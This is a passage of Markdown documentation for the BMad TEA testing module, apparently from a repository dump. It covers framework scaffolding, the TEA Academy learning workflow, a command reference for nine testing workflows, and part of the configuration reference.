### 4. Review Generated Output

TEA generates:

- **Test scaffold** — Directory structure and config files (language-idiomatic)
- **Sample specs** — Example tests following best practices for your framework
- **`.env.example`** — Environment variable template
- **Version file** — `.nvmrc` (Node.js), `.python-version` (Python), `global.json` (.NET), etc.
- **README updates** — Testing documentation

## What You Get

**Frontend/Fullstack (Node.js):**

```
tests/
├── e2e/
│   ├── example.spec.ts
│   └── fixtures/
├── integration/
├── unit/
├── playwright.config.ts  # or cypress.config.ts
└── README.md
```

**Backend (Python example):**

```
tests/
├── unit/
│   └── test_example.py
├── integration/
├── api/
├── conftest.py
└── README.md
```

> **Note:** Playwright has official bindings for Python, Java, and .NET — making it viable for API testing across languages, not just Node.js.

## Optional: Playwright Utils Integration

TEA can integrate with `@seontechnologies/playwright-utils` for advanced fixtures:

```bash
npm install -D @seontechnologies/playwright-utils
```

Enable during BMad installation or set `tea_use_playwright_utils: true` in config.

**Utilities available:** api-request, network-recorder, auth-session, intercept-network-call, recurse, log, file-utils, burn-in, network-error-monitor

## Optional: MCP Enhancements

TEA can use Playwright MCP servers for enhanced capabilities:

- `playwright` — Browser automation
- `playwright-test` — Test runner with failure analysis

Configure in your IDE's MCP settings.

## Tips

- **Run only once per repository** — Framework setup is a one-time operation
- **Run after architecture is complete** — Framework aligns with tech stack
- **Follow up with CI setup** — Run `ci` to configure CI/CD pipeline

## Next Steps

After test framework setup:

1. **Test Design** — Create test plans for system or epics
2. **CI Configuration** — Set up automated test runs
3. **Story Implementation** — Tests are ready for development
```

## File: `brain/knowledge/docs_legacy/how-to/workflows/teach-me-testing.md`
```markdown
---
title: 'How to Learn Testing with TEA Academy'
description: Multi-session learning companion that teaches testing fundamentals through advanced practices with state persistence
---

# How to Learn Testing with TEA Academy

Use TEA's `teach-me-testing` workflow (TEA Academy) to learn testing progressively through 7 structured sessions. Designed for self-paced learning over 1-2 weeks with automatic progress tracking.

## When to Use This

- **New QA engineers:** Complete onboarding in testing fundamentals
- **Developers:** Learn testing from an integration perspective
- **Team leads:** Understand architecture patterns and team practices
- **VPs/Managers:** Grasp testing strategy and quality metrics
- **Anyone:** Who wants to learn testing without requiring an instructor

**Perfect for:**

- Company onboarding (new QAs complete in 1-2 weeks)
- Self-paced learning (pause and resume anytime)
- Non-linear exploration (jump to any session based on experience)
- Building testing knowledge that scales

## What You'll Learn

### 7 Progressive Sessions

1. **Quick Start (30 min)** - TEA Lite intro, understand engagement models
2. **Core Concepts (45 min)** - Risk-based testing (P0-P3), Definition of Done
3. **Architecture & Patterns (60 min)** - Fixtures, network-first patterns, data factories
4. **Test Design (60 min)** - Risk assessment and coverage planning workflow
5. **ATDD & Automate (60 min)** - TDD red-green approach, test generation
6. **Quality & Trace (45 min)** - Test review (5 dimensions), requirements traceability
7. **Advanced Patterns (ongoing)** - Explore 42 knowledge fragments on-demand

### What You'll Gain

- ✅ Testing fundamentals (risk-based, test pyramid, types)
- ✅ TEA methodology (9 workflows, architecture patterns)
- ✅ Practical skills (write your first good test)
- ✅ Knowledge artifacts (session notes, completion certificate)
- ✅ Confidence to apply TEA to your project

## Prerequisites

- BMad Method installed with TEA module
- Access to TEA documentation and knowledge base
- 30-90 minutes per session (can pause and resume)
- Willingness to learn progressively over 1-2 weeks

## How It Works

### Starting Fresh

Start a fresh chat and load TEA:

```
tea
```

Then select Teach Me Testing:

```
TMT
```

Or directly:

```
teach-me-testing
```

### Initial Assessment

The workflow will ask about:

- **Your role:** QA, Dev, Lead, or VP (customizes examples)
- **Experience level:** Beginner, intermediate, or experienced
- **Learning goals:** What you want to achieve
- **Pain points:** (Optional) Current testing challenges

### Session Menu (The Hub)

After assessment, you'll see a menu of all 7 sessions with:

- ✅ Completed sessions (with scores)
- 🔄 In-progress sessions
- ⬜ Not-started sessions
- Completion percentage
- Recommended next session

**Jump to any session** - You're not locked into a linear path!

### Session Flow

Each session follows this pattern:

1. **Teaching** - Concepts presented with role-adapted examples
2. **Quiz** - 3 questions to validate understanding (≥70% to pass)
3. **Session Notes** - Artifact generated with key takeaways
4. **Progress Update** - Automatic save (can pause anytime)
5. **Return to Menu** - Choose next session or exit

### Progress Tracking

Your progress is automatically saved:

- **Progress file:** `{test_artifacts}/teaching-progress/{your-name}-tea-progress.yaml`
- **Session notes:** `{test_artifacts}/tea-academy/{your-name}/session-{N}-notes.md`
- **Certificate:** `{test_artifacts}/tea-academy/{your-name}/tea-completion-certificate.md` (after all 7 sessions)

### Resuming Later

Simply run the workflow again - it automatically detects your progress and shows where you left off.

## Learning Paths by Experience

### Beginners (New to Testing)

**Recommended path:** Sessions 1 → 2 → 3 → 4 → 5 → 6 → 7

Start at Session 1 and work through sequentially. Each session builds on previous concepts.

**Time commitment:** 1-2 weeks (30-90 min per session)

### Intermediate (Have Written Tests)

**Recommended path:** Sessions 1 → 2 → 3 → 4 → 5 → 6 → 7

You might breeze through Sessions 1-2 and focus on 3-6.

**Time commitment:** 1 week (can skip familiar topics)

### Experienced (Strong Testing Background)

**Recommended path:** Jump to Sessions 3, 4, 7

Skip fundamentals, focus on:

- Session 3: TEA architecture patterns
- Session 4: Test Design workflow
- Session 7: Advanced patterns (42 knowledge fragments)

**Time commitment:** 3-4 hours (highly targeted)

## Session Details

### Session 1: Quick Start (30 min)

**Topics:**

- What is TEA and why it exists
- TEA Lite approach (30-minute value)
- Engagement models (Lite/Solo/Integrated/Enterprise/Brownfield)
- Automate workflow overview

**Resources:** TEA Overview, TEA Lite Quickstart, Automate Workflow docs

### Session 2: Core Concepts (45 min)

**Topics:**

- Testing as engineering philosophy
- Risk-based testing (P0-P3 matrix)
- Probability × Impact scoring
- Definition of Done (7 quality principles)

**Resources:** Testing as Engineering, Risk-Based Testing, Test Quality Standards docs
**Knowledge Fragments:** test-quality.md, probability-impact.md

### Session 3: Architecture & Patterns (60 min)

**Topics:**

- Fixture composition patterns
- Network-first patterns (prevent race conditions)
- Data factories
- Step-file architecture (the pattern this workflow uses!)

**Resources:** Fixture Architecture, Network-First Patterns, Step-File Architecture docs
**Knowledge Fragments:** fixture-architecture.md, network-first.md, data-factories.md

### Session 4: Test Design (60 min)

**Topics:**

- Test Design workflow
- Risk/testability assessment
- Coverage planning (unit/integration/E2E)
- Test priorities matrix (P0-P3 coverage targets)

**Resources:** Test Design workflow docs
**Knowledge Fragments:** test-levels-framework.md, test-priorities-matrix.md

### Session 5: ATDD & Automate (60 min)

**Topics:**

- ATDD workflow (failing tests first)
- TDD red-green-refactor loop
- Automate workflow (coverage expansion)
- API testing patterns

**Resources:** ATDD, Automate workflow docs
**Knowledge Fragments:** component-tdd.md, api-testing-patterns.md, api-request.md

### Session 6: Quality & Trace (45 min)

**Topics:**

- Test Review workflow (5 dimensions: determinism, isolation, maintainability, coverage, performance)
- Trace workflow (requirements traceability)
- Quality metrics that matter (P0/P1 coverage vs vanity metrics)
- Release gate decisions

**Resources:** Test Review, Trace workflow docs

### Session 7: Advanced Patterns (Ongoing)

**Topics:**

- Menu-driven exploration of 42 knowledge fragments
- 5 categories: Testing Patterns, Playwright Utils, Configuration & Governance, Quality Frameworks, Auth & Security
- Deep-dive into specific patterns as needed
- GitHub links for browsing source

**Resources:** All 42 knowledge fragments
**GitHub:** [Knowledge Base Repository](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/tree/main/src/agents/bmad-tea/resources/knowledge)

## Completion Certificate

Complete all 7 sessions to receive your TEA Academy completion certificate with:

- Session completion dates and scores
- Average score across all sessions
- Skills acquired checklist
- Learning artifacts paths
- Recommended next steps

## Tips for Success

1. **Set aside dedicated time** - Each session requires focus (30-90 min)
2. **Take your own notes** - Session notes are generated, but add personal insights
3. **Apply immediately** - Practice concepts on your current project
4. **Explore fragments** - Session 7 has 42 fragments for deep-dive topics
5. **Share with team** - Help others learn by sharing your experience
6. **Don't rush** - Learning takes time, pause and resume as needed

## Role-Based Customization

The workflow adapts examples based on your role:

**QA Engineers:** Practical testing focus, workflow usage, coverage expansion
**Developers:** Integration perspective, TDD approach, API testing
**Tech Leads:** Architecture decisions, team patterns, code review standards
**VPs/Managers:** Strategy, ROI, quality metrics, team scaling

## Troubleshooting

### Progress file not found

If you've run the workflow before but it doesn't detect your progress:

- Check: `{test_artifacts}/teaching-progress/{your-name}-tea-progress.yaml`
- Workflow auto-creates on first run

### Quiz failing repeatedly

If scoring <70% on quizzes:

- Select [R] to review content again
- Or select [C] to continue (score recorded, you can retake later)

### Want to restart from scratch

Delete your progress file to start fresh:

```bash
rm {test_artifacts}/teaching-progress/{your-name}-tea-progress.yaml
```

## Related Workflows

After completing TEA Academy, you're ready to use:

- [Framework](./setup-test-framework.md) - Set up test framework
- [Test Design](./run-test-design.md) - Plan test coverage
- [ATDD](./run-atdd.md) - Generate failing tests first
- [Automate](./run-automate.md) - Expand test coverage
- [Test Review](./run-test-review.md) - Audit test quality
- [Trace](./run-trace.md) - Requirements traceability

## Additional Resources

- **Documentation:** [TEA Overview](/explanation/tea-overview/)
- **Knowledge Base:** [Knowledge Base Reference](/reference/knowledge-base/)
- **GitHub Fragments:** [Knowledge Base Repository](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/tree/main/src/agents/bmad-tea/resources/knowledge)

## Support

Questions or issues? See [Troubleshooting](/reference/troubleshooting/) or file an issue on the GitHub repository.
```

## File: `brain/knowledge/docs_legacy/reference/commands.md`
```markdown
---
title: 'TEA Command Reference'
description: Quick reference for all 9 TEA workflows - inputs, outputs, and links to detailed guides
---

# TEA Command Reference

Quick reference for all 9 TEA (Test Engineering Architect) workflows. For detailed step-by-step guides, see the how-to documentation.

All workflows listed here are current and supported in TEA, including `nfr-assess`.

**Invocation by tool:**

- Claude Code / Cursor / Windsurf: use slash commands (for example, `/bmad:tea:automate`)
- Codex: use `$` skills from `.agents/skills` (for example, `$bmad-tea-testarch-automate`)
- Custom TEA extensions: package the workflow as custom content/module and attach it to `bmad-tea` via customization. See [Extend TEA with Custom Workflows](../how-to/customization/extend-tea-with-custom-workflows.md)

## Quick Index

- [`teach-me-testing`](#teach-me-testing) - Learn testing (TEA Academy)
- [`framework`](#framework) - Scaffold test framework
- [`ci`](#ci) - Setup CI/CD pipeline
- [`test-design`](#test-design) - Risk-based test planning
- [`atdd`](#atdd) - Acceptance TDD
- [`automate`](#automate) - Test automation
- [`test-review`](#test-review) - Quality audit
- [`nfr-assess`](#nfr-assess) - NFR assessment
- [`trace`](#trace) - Coverage traceability

---

## teach-me-testing

**Purpose:** Interactive learning companion - teaches testing fundamentals through advanced practices

**Phase:** Learning / Onboarding (before all other phases)

**Frequency:** Once per learner (can revisit sessions anytime)

**Key Inputs:**

- Role (QA, Dev, Lead, VP)
- Experience level (beginner, intermediate, experienced)
- Learning goals

**Key Outputs:**

- Progress tracking file (`teaching-progress/{user}-tea-progress.yaml`)
- Session notes for each completed session
- Completion certificate (after all 7 sessions)
- Learning artifacts (notes, test examples)

**7 Sessions:**

1. Quick Start (30 min) - TEA Lite intro, engagement models
2. Core Concepts (45 min) - Risk-based testing, P0-P3, DoD
3. Architecture (60 min) - Fixtures, network-first, data factories
4. Test Design (60 min) - Risk assessment, coverage planning
5. ATDD & Automate (60 min) - TDD red-green, test generation
6. Quality & Trace (45 min) - Test review, traceability, metrics
7. Advanced Patterns (ongoing) - 42 knowledge fragments exploration

**Features:**

- Multi-session with state persistence (pause/resume anytime)
- Non-linear (jump to any session based on experience)
- Quiz validation (≥70% to pass)
- Role-adapted examples (QA/Dev/Lead/VP)
- Automatic progress tracking

**How-To Guide:** [Learn Testing with TEA Academy](/brain/knowledge/docs_legacy/how-to/workflows/teach-me-testing.md)

**Tutorial:** [Learn Testing with TEA Academy](/brain/knowledge/docs_legacy/tutorials/learn-testing-tea-academy.md)

---

## framework

**Purpose:** Scaffold production-ready test framework (Playwright or Cypress)

**Phase:** Phase 3 (Solutioning)

**Frequency:** Once per project

**Key Inputs:**

- Tech stack, test framework choice, testing scope

**Key Outputs:**

- `tests/` directory with `support/fixtures/` and `support/helpers/`
- `playwright.config.ts` or `cypress.config.ts`
- `.env.example`, `.nvmrc`
- Sample tests with best practices

**How-To Guide:** [Setup Test Framework](/brain/knowledge/docs_legacy/how-to/workflows/setup-test-framework.md)

---

## ci

**Purpose:** Setup CI/CD pipeline with selective testing and burn-in

**Phase:** Phase 3 (Solutioning)

**Frequency:** Once per project

**Key Inputs:**

- CI platform (GitHub Actions, GitLab CI, etc.)
- Sharding strategy, burn-in preferences

**Key Outputs:**

- Platform-specific CI workflow (`.github/workflows/test.yml`, etc.)
- Parallel execution configuration
- Burn-in loops for flakiness detection
- Secrets checklist

**How-To Guide:** [Setup CI Pipeline](/brain/knowledge/docs_legacy/how-to/workflows/setup-ci.md)

---

## test-design

**Purpose:** Risk-based test planning with coverage strategy

**Phase:** Phase 3 (system-level), Phase 4 (epic-level)

**Frequency:** Once (system), per epic (epic-level)

**Modes:**

- **System-level:** Architecture testability review (TWO documents)
- **Epic-level:** Per-epic risk assessment (ONE document)

**Key Inputs:**

- System-level: Architecture, PRD, ADRs
- Epic-level: Epic, stories, acceptance criteria

**Key Outputs:**

**System-Level (TWO Documents):**

- `test-design-architecture.md` - For Architecture/Dev teams
  - Quick Guide (🚨 BLOCKERS / ⚠️ HIGH PRIORITY / 📋 INFO ONLY)
  - Risk assessment with scoring
  - Testability concerns and gaps
  - Mitigation plans
- `test-design-qa.md` - For QA team
  - Test execution recipe
  - Coverage plan (P0/P1/P2/P3 with checkboxes)
  - Sprint 0 setup requirements
  - NFR readiness summary

**Epic-Level (ONE Document):**

- `test-design-epic-N.md`
  - Risk assessment (probability × impact scores)
  - Test priorities (P0-P3)
  - Coverage strategy
  - Mitigation plans

**Why Two Documents for System-Level?**

- Architecture teams scan blockers in <5 min
- QA teams have actionable test recipes
- No redundancy (cross-references instead)
- Clear separation (what to deliver vs how to test)

**Browser Automation (CLI/MCP):** Exploratory mode (live browser UI discovery)

**How-To Guide:** [Run Test Design](/brain/knowledge/docs_legacy/how-to/workflows/run-test-design.md)

---

## atdd

**Purpose:** Generate failing acceptance tests BEFORE implementation (TDD red phase)

**Phase:** Phase 4 (Implementation)

**Frequency:** Per story (optional)

**Key Inputs:**

- Story with acceptance criteria, test design, test levels

**Key Outputs:**

- Failing tests (`tests/api/`, `tests/e2e/`)
- Implementation checklist
- All tests fail initially (red phase)

**Browser Automation (CLI/MCP):** Recording mode (for skeleton UI only - rare)

**How-To Guide:** [Run ATDD](/brain/knowledge/docs_legacy/how-to/workflows/run-atdd.md)

---

## automate

**Purpose:** Expand test coverage after implementation

**Phase:** Phase 4 (Implementation)

**Frequency:** Per story/feature

**Key Inputs:**

- Feature description, test design, existing tests to avoid duplication

**Key Outputs:**

- Comprehensive test suite (`tests/e2e/`, `tests/api/`)
- Updated fixtures, README
- Definition of Done summary

**Browser Automation (CLI/MCP):** Healing + Recording modes (fix tests, verify selectors)

**How-To Guide:** [Run Automate](/brain/knowledge/docs_legacy/how-to/workflows/run-automate.md)

---

## test-review

**Purpose:** Audit test quality with 0-100 scoring

**Phase:** Phase 4 (optional per story), Release Gate

**Frequency:** Per epic or before release

**Key Inputs:**

- Test scope (file, directory, or entire suite)

**Key Outputs:**

- `test-review.md` with quality score (0-100)
- Critical issues with fixes
- Recommendations
- Category scores (Determinism, Isolation, Maintainability, Performance)
- Coverage guidance is informational only; coverage scoring and gates are handled by `trace`

**Scoring Categories:**

- Determinism: 30%
- Isolation: 30%
- Maintainability: 25%
- Performance: 15%

**How-To Guide:** [Run Test Review](/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md)

---

## nfr-assess

**Purpose:** Validate non-functional requirements with evidence

**Phase:** Phase 2 (enterprise), Release Gate

**Frequency:** Per release (enterprise projects)

**Key Inputs:**

- NFR categories (Security, Performance, Reliability, Maintainability)
- Thresholds, evidence location

**Key Outputs:**

- `nfr-assessment.md`
- Category assessments (PASS/CONCERNS/FAIL)
- Mitigation plans
- Gate decision inputs

**How-To Guide:** [Run NFR Assessment](/brain/knowledge/docs_legacy/how-to/workflows/run-nfr-assess.md)

---

## trace

**Purpose:** Requirements traceability + quality gate decision

**Phase:** Phase 2/4 (traceability), Release Gate (decision)

**Frequency:** Baseline, per epic refresh, release gate

**Two-Phase Workflow:**

**Phase 1: Traceability**

- Requirements → test mapping
- Coverage classification (FULL/PARTIAL/NONE)
- Gap prioritization
- Output: `traceability-matrix.md`

**Phase 2: Gate Decision**

- PASS/CONCERNS/FAIL/WAIVED decision
- Evidence-based (coverage %, quality scores, NFRs)
- Output: `gate-decision-{gate_type}-{story_id}.md`

**Gate Rules:**

- P0 coverage: 100% required
- P1 coverage: ≥90% for PASS, 80-89% for CONCERNS, <80% FAIL
- Overall coverage: ≥80% required

**How-To Guide:** [Run Trace](/brain/knowledge/docs_legacy/how-to/workflows/run-trace.md)

---

## Summary Table

| Command            | Phase      | Frequency                 | Primary Output             |
| ------------------ | ---------- | ------------------------- | -------------------------- |
| `teach-me-testing` | Learning   | Once per learner          | Progress + notes + cert    |
| `framework`        | 3          | Once                      | Test infrastructure        |
| `ci`               | 3          | Once                      | CI/CD pipeline             |
| `test-design`      | 3, 4       | System + per epic         | Test design doc            |
| `atdd`             | 4          | Per story (optional)      | Failing tests              |
| `automate`         | 4          | Per story                 | Passing tests              |
| `test-review`      | 4, Gate    | Per epic/release          | Quality report             |
| `nfr-assess`       | 2, Gate    | Per release               | NFR assessment             |
| `trace`            | 2, 4, Gate | Baseline + refresh + gate | Coverage matrix + decision |

---

## See Also

**How-To Guides (Detailed Instructions):**

- [Learn Testing with TEA Academy](/brain/knowledge/docs_legacy/how-to/workflows/teach-me-testing.md)
- [Setup Test Framework](/brain/knowledge/docs_legacy/how-to/workflows/setup-test-framework.md)
- [Setup CI Pipeline](/brain/knowledge/docs_legacy/how-to/workflows/setup-ci.md)
- [Run Test Design](/brain/knowledge/docs_legacy/how-to/workflows/run-test-design.md)
- [Run ATDD](/brain/knowledge/docs_legacy/how-to/workflows/run-atdd.md)
- [Run Automate](/brain/knowledge/docs_legacy/how-to/workflows/run-automate.md)
- [Run Test Review](/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md)
- [Run NFR Assessment](/brain/knowledge/docs_legacy/how-to/workflows/run-nfr-assess.md)
- [Run Trace](/brain/knowledge/docs_legacy/how-to/workflows/run-trace.md)

**Explanation:**

- [TEA Overview](/brain/knowledge/docs_legacy/explanation/tea-overview.md) - Complete TEA lifecycle
- [Engagement Models](/brain/knowledge/docs_legacy/explanation/engagement-models.md) - When to use which workflows

**Reference:**

- [TEA Configuration](configuration.md) - Config options
- [Knowledge Base Index](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md) - Pattern fragments

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/reference/configuration.md`
```markdown
---
title: 'TEA Configuration Reference'
description: Complete reference for TEA configuration options and file locations
---

# TEA Configuration Reference

Complete reference for all TEA (Test Engineering Architect) configuration options.

## Configuration File Locations

### User Configuration (Installer-Generated)

**Location:** `_bmad/tea/config.yaml`

**Purpose:** Project-specific configuration values for your repository

**Created By:** BMad installer

**Status:** Typically gitignored (user-specific values)

**Usage:** Edit this file to change TEA behavior in your project

**Example:**

```yaml
# _bmad/tea/config.yaml
project_name: my-awesome-app
user_skill_level: intermediate
output_folder: _bmad-output
test_artifacts: _bmad-output/test-artifacts
tea_use_playwright_utils: true
tea_use_pactjs_utils: false
tea_pact_mcp: 'none'
tea_browser_automation: 'auto'
tea_execution_mode: 'auto'
tea_capability_probe: true
```

### Canonical Schema (Source of Truth)

**Location:** `src/module.yaml`

**Purpose:** Defines available configuration keys, defaults, and installer prompts

**Created By:** BMAD maintainers (part of BMAD repo)

**Status:** Versioned in BMAD repository

**Usage:** Reference only (do not edit unless contributing to BMAD)

**Note:** The installer reads `module.yaml` to prompt for config values, then writes user choices to `_bmad/tea/config.yaml` in your project.

---

## TEA Configuration Options

### test_artifacts

Base output folder for TEA-generated artifacts (test designs, reports, traceability, etc).

**Schema Location:** `src/module.yaml` (TEA module config)

**User Config:** `_bmad/tea/config.yaml`

**Type:** `string`

**Default:** `{output_folder}/test-artifacts`

**Purpose:** Allows TEA outputs to live outside the core BMM output folder.

**Example:**

```yaml
test_artifacts: brain/knowledge/docs_legacy/testing-artifacts
```

### tea_use_playwright_utils

Enable Playwright Utils integration for production-ready fixtures and utilities.

**Schema Location:** `src/module.yaml` (TEA module config)

**User Config:** `_bmad/tea/config.yaml`

**Type:** `boolean`

**Default:** `true`

**Installer Prompt:**

```
Enable Playwright Utils integration?
```

**Purpose:** Enables TEA to:

- Include playwright-utils in `framework` scaffold
- Generate tests using playwright-utils fixtures
- Review tests against playwright-utils patterns
- Configure CI with burn-in and selective testing utilities

**Affects Workflows:**

- `framework` - Includes playwright-utils imports and fixture examples
- `atdd` - Uses fixtures like `apiRequest`, `authSession` in generated tests
- `automate` - Leverages utilities for test patterns
- `test-review` - Reviews against playwright-utils best practices
- `ci` - Includes burn-in utility and selective testing

**Example (Enable):**

```yaml
tea_use_playwright_utils: true
```

**Example (Disable):**

```yaml
tea_use_playwright_utils: false
```

**Prerequisites:**

```bash
npm install -D @seontechnologies/playwright-utils
```

**Related:**

- [Integrate Playwright Utils Guide](/brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md)
- [Playwright Utils on npm](https://www.npmjs.com/package/@seontechnologies/playwright-utils)

---

### tea_use_pactjs_utils

Enable Pact.js Utils integration for production-ready consumer-driven contract testing utilities.

**Schema Location:** `src/module.yaml` (TEA module config)

**User Config:** `_bmad/tea/config.yaml`

**Type:** `boolean`

**Default:** `false`

**Installer Prompt:**

```
Enable Pact.js Utils for consumer-driven contract testing?
```

**Purpose:** Enables TEA to:

- Load Pact.js Utils knowledge fragments during context loading
- Scaffold contract test structure and examples in `framework`
- Generate contract testing guidance in `atdd` and `automate`
- Review provider verification patterns in `test-review`
- Add contract pipeline stage and gates in `ci`

**Affects Workflows:**

- `framework` - Creates pact test folders and pactjs-utils sample patterns
- `atdd` - Loads pactjs-utils fragments for contract-aware generation context
- `automate` - Loads pactjs-utils fragments and passes pact config to subagents
- `test-design` - Loads pactjs-utils fragments for core/epic planning
- `test-review` - Uses pactjs-utils provider/review patterns
- `ci` - Adds contract-test stage and quality gates

**Use this when:** your team already practices consumer-driven contract testing or wants TEA to scaffold Pact-aware patterns on purpose. Leave it off for projects that do not use Pact.

**Example (Enable):**

```yaml
tea_use_pactjs_utils: true
```

**Example (Disable):**

```yaml
tea_use_pactjs_utils: false
```

**Prerequisites:**

```bash
npm install -D @seontechnologies/pactjs-utils @pact-foundation/pact
```

**Related:**

- [Pact.js Utils docs](https://seontechnologies.github.io/pactjs-utils/)
- [TEA Overview - Optional Integrations](/brain/knowledge/docs_legacy/explanation/tea-overview.md#optional-integrations)

---

### tea_pact_mcp

Pact MCP strategy for broker interaction during contract testing workflows.

**Schema Location:** `src/module.yaml` (TEA module config)

**User Config:** `_bmad/tea/config.yaml`

**Type:** `string`

**Default:** `"none"`

**Options:** `"mcp"` | `"none"`

**Installer Prompt:**

```
Enable SmartBear MCP for PactFlow/Pact Broker? Only needed if you already use a broker.
```

**Purpose:** Controls whether TEA can use SmartBear MCP tools for:

- Provider-state discovery in design/generation workflows
- Pact test review assistance
- Can-i-deploy and matrix guidance in CI workflows

**Affects Workflows:**

- `test-design` - Broker-aware contract context loading
- `automate` - Broker-assisted pact generation context
- `test-review` - MCP-assisted pact review context
- `ci` - MCP can-i-deploy/matrix guidance references

**Use this when:** your project already uses PactFlow or Pact Broker and you want TEA to query broker state during review, generation, or gate guidance. Otherwise leave it set to `none`.

**Prerequisites:**

```bash
npm install -g @smartbear/mcp
# or: npx -y @smartbear/mcp@latest
```

**Required broker env vars (for Pact features):**

- `PACT_BROKER_BASE_URL`
- `PACT_BROKER_TOKEN` (or username/password for basic auth)

**Example (Enable MCP):**

```yaml
tea_pact_mcp: 'mcp'
```

**Example (Disable MCP):**

```yaml
tea_pact_mcp: 'none'
```

**Related:**

- [Configure Browser Automation Guide](/brain/knowledge/docs_legacy/how-to/customization/configure-browser-automation.md)
- [SmartBear MCP docs](https://developer.smartbear.com/smartbear-mcp/brain/knowledge/docs_legacy/getting-started)

---

### tea_browser_automation

Browser automation strategy for TEA workflows. Controls how TEA interacts with live browsers during test generation.

**Schema Location:** `src/module.yaml` (TEA module config)

**User Config:** `_bmad/tea/config.yaml`

**Type:** `string`

**Default:** `"auto"`

**Options:** `"auto"` | `"cli"` | `"mcp"` | `"none"`

**Installer Prompt:**

```
How should TEA interact with browsers during test generation?
```

**Purpose:** Controls which browser automation tool TEA uses:

| Mode   | Behavior                                                                                                    |
| ------ | ----------------------------------------------------------------------------------------------------------- |
| `auto` | Smart selection — CLI for stateless tasks, MCP for stateful flows. Falls back gracefully. **(Recommended)** |
| `cli`  | CLI only (`@playwright/cli`). MCP ignored.                                                                  |
| `mcp`  | MCP only. CLI ignored. Same as old `tea_use_mcp_enhancements: true`.                                        |
| `none` | No browser interaction. Pure AI generation from brain/knowledge/docs_legacy/code.                                                  |

**Affects Workflows:**

- `test-design` - Exploratory mode (CLI snapshots for page discovery)
- `atdd` - Recording mode (CLI for selector verification, MCP for complex interactions)
- `automate` - Healing mode (MCP for debugging) + recording mode (CLI for snapshots)
- `test-review` - Evidence collection (CLI for traces, screenshots)

**Prerequisites:**

- **CLI:** `npm install -g @playwright/cli@latest` then `playwright-cli install --skills`
- **MCP:** Configure MCP servers in IDE (see [Configure Browser Automation](/brain/knowledge/docs_legacy/how-to/customization/configure-browser-automation.md))

**Example (Auto — Recommended):**

```yaml
tea_browser_automation: 'auto'
```

**Example (CLI only):**

```yaml
tea_browser_automation: 'cli'
```

**Example (MCP only — same as old behavior):**

```yaml
tea_browser_automation: 'mcp'
```

**Example (Disable):**

```yaml
tea_browser_automation: 'none'
```

**Migration from old flag:**

| Old Setting                       | New Equivalent                   |
| --------------------------------- | -------------------------------- |
| `tea_use_mcp_enhancements: true`  | `tea_browser_automation: "auto"` |
| `tea_use_mcp_enhancements: false` | `tea_browser_automation: "none"` |

**Related:**

- [Configure Browser Automation Guide](/brain/knowledge/docs_legacy/how-to/customization/configure-browser-automation.md)
- [TEA Overview - Browser Automation](/brain/knowledge/docs_legacy/explanation/tea-overview.md#browser-automation-playwright-cli-mcp)

---

### tea_execution_mode

Execution strategy for orchestration-capable TEA workflows.

**Schema Location:** `src/module.yaml` (TEA module config)

**User Config:** `_bmad/tea/config.yaml`

**Type:** `string`

**Default:** `"auto"`

**Options:** `"auto"` | `"subagent"` | `"agent-team"` | `"sequential"`

**Installer Prompt:**

```
How should TEA orchestrate multi-step generation and evaluation?
```

**Purpose:** Defines how TEA orchestrates worker-style steps in these workflows:

- `automate`
- `atdd`
- `test-review`
- `nfr-assess`
- `framework`
- `ci`
- `test-design`
- `trace`

`teach-me-testing` does not use this setting.

**Mode behavior:**

| Mode         | Behavior                                                                                         |
| ------------ | ------------------------------------------------------------------------------------------------ |
| `auto`       | Recommended. TEA picks best supported mode using runtime capability checks (if probing enabled). |
| `agent-team` | Prefer runtime team/delegation orchestration.                                                    |
| `subagent`   | Prefer isolated subagent-style orchestration.                                                    |
| `sequential` | Force one-by-one execution. Most deterministic, typically slowest.                               |

**Important:** In `agent-team` and `subagent` modes, runtime decides scheduling and concurrency. TEA does not enforce a separate parallel-worker cap.

**Per-workflow effect:**

| Workflow      | Orchestrated unit                              | What mode changes    |
| ------------- | ---------------------------------------------- | -------------------- |
| `automate`    | API + E2E/backend generation workers           | Dispatch style only  |
| `atdd`        | failing API + failing E2E workers              | Dispatch style only  |
| `test-review` | quality-dimension workers                      | Dispatch style only  |
| `nfr-assess`  | domain assessment workers                      | Dispatch style only  |
| `framework`   | scaffold work units                            | Dispatch style only  |
| `ci`          | orchestration-capable pipeline generation step | Orchestration policy |
| `test-design` | orchestration-capable output generation step   | Orchestration policy |
| `trace`       | phase/work-unit separation with dependencies   | Orchestration policy |

Output contracts remain the same across modes for a given workflow.

**Resolution order:**

1. Normalize explicit run-level wording (if present):
   - `agent team` / `agent teams` / `agentteam` -> `agent-team`
   - `subagent` / `subagents` / `sub agent` / `sub agents` -> `subagent`
   - `sequential` -> `sequential`
   - `auto` -> `auto`
2. If no explicit override exists, use `tea_execution_mode` from `_bmad/tea/config.yaml`.
3. If `tea_capability_probe: true`, detect runtime support for `agent-team` and `subagent`.
4. Resolve mode:
   - `auto` -> `agent-team` -> `subagent` -> `sequential`
   - explicit `agent-team`/`subagent` -> fallback only when probing is enabled
   - `sequential` -> always sequential

Default when no explicit run request is given: configured value (typically `auto`).

**Example (Recommended):**

```yaml
tea_execution_mode: 'auto'
```

**Example (Force Sequential):**

```yaml
tea_execution_mode: 'sequential'
```

---

### tea_capability_probe

Whether TEA should probe runtime capabilities before resolving execution mode.

**Schema Location:** `src/module.yaml` (TEA module config)

**User Config:** `_bmad/tea/config.yaml`

**Type:** `boolean`

**Default:** `true`

**Purpose:** When enabled, TEA checks whether `agent-team` or `subagent` execution is actually supported and falls back safely. When disabled, TEA honors configured mode strictly and fails if unsupported.

**Example (Recommended):**

```yaml
tea_capability_probe: true
```

**Example (Strict):**

```yaml
tea_capability_probe: false
```

---

### test_stack_type

Detected or configured project stack type. Controls CI pipeline generation and framework selection.

**Schema Location:** `src/module.yaml` (TEA module config)

**User Config:** `_bmad/tea/config.yaml`

**Type:** `string`

**Default:** `"auto"`

**Options:** `"auto"` | `"frontend"` | `"backend"` | `"fullstack"`

**Purpose:** Determines stack-specific behavior:

| Stack Type  | Behavior                                                                                                   |
| ----------- | ---------------------------------------------------------------------------------------------------------- |
